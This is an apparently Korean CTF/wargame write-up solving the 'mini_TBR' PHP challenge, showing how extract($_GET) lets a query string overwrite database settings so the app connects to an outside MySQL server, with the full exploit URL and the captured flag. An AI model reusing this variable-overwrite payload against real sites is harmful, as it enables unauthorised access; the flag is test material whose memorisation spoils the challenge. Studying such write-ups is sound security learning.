





# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

소스 파일을 다운받을 수 있다.



mini_TBR\modules\_system\functions.php에서 get_layout함수에서 인자로 받은 2개의 값을 이용하여 쿼리를 한 후 결과 중 path컬럼의 값이 hacked이면 FLAG를 획득할 수 있다.

```php
... 생략 ...
 function get_layout($layout, $pos){
	$result = mysql_query("select path from _BH_layout where layout_name='$layout' and position='$pos'");
	$row = mysql_fetch_array($result);
	$allow_list = ["./book_store_skin/head.html", "./book_store_skin/foot.html", "./reverted/h.htm", "./reverted/f.htm"];

	if (isset($row['path'])){
		if ($row['path'] == "hacked") {
			include("../lib.php");
			die(auth_code("mini TBR"));
		}
... 생략 ...
```

get_layout의 인자는 mini_TBR\index.php에서 확인할 수 있는데, _skin이라는 변수와 head 혹은 foot이라는 문자열이 들어간다.

```php
db_conn();
$head = $_BHVAR['path_layout'].get_layout($_skin, 'head');
$foot = $_BHVAR['path_layout'].get_layout($_skin, 'foot');
```

_skin변수에 데이터를 집어 넣는 부분은 찾지 못하고, _skin변수의 데이터를 가지고 어떤 행위를 하는 로직밖에 없다.

```php
if (isset($_skin)){
	$_SESSION['skin'] = $_skin;
}else if(!isset($_SESSION['skin'])){
	$_SESSION['skin'] = 1;
}

$_skin = $_SESSION['skin'];
```

이때, 33line에서 ini_get 함수를 통해서 php.ini에 regiter_globals값이 Off이면 extract함수를 통해서 GET method로 전달되는 쿼리의 데이터를 변수로 처리할 수 있다.

> [PHP extract](https://www.php.net/manual/en/function.extract.php)

```php
if (!ini_get("register_globals")) extract($_GET);
```

즉, ?_skin=1로 접속하면 $_skin은 1이라는 데이터가 들어간다는 것이다. 그리고 functions.php의 get_layout함수에서는 select path from _BH_layout where layout_name='1' and position='head'로 쿼리를할 것이다.

그러면 바로 위에 있는 db_conn함수를 보자.

```php
 function db_conn(){
 	global $_BHVAR;
	mysql_connect($_BHVAR['db']['host'], $_BHVAR['db']['user'], $_BHVAR['db']['pass']);
	mysql_select_db($_BHVAR['db']['name']);
 }
```

GET mthod로 _BHVAR['db']['host'], _BHVAR['db']['user'], _BHVAR['db']['pass'], _BHVAR['db']['name']을 내가 원하는 DB 값으로 바꾸고, 해당 DB에 _BH_layout테이블에 path값을 hacked로 넣어놓으면 이 값을 읽어 갈 것이다.



하지만, GET으로 _BHVAR을 조작하면 funcions.php를 읽을 수 없을 것이다.

```php
include_once $_BHVAR['path_module']."_system/functions.php";
```

따라서 path_module,path_layout 등을 기존 코드처럼 데이터를 넣어서 접속하면 FLAG를 획득할 수 있다.

http://wargame.kr:8080/mini_TBR/?_skin=1&_BHVAR[path_module]=./modules/&_BHVAR[path_layout]=./layouts/&_BHVAR[db][host]=61.251.215.194&_BHVAR[db][user]=root&_BHVAR[db][pass]=root&_BHVAR[db][name]=mini_tbr






# **FLAG**

**c297fed2e7d70a005c7c8e1500cd7af23cc3123d**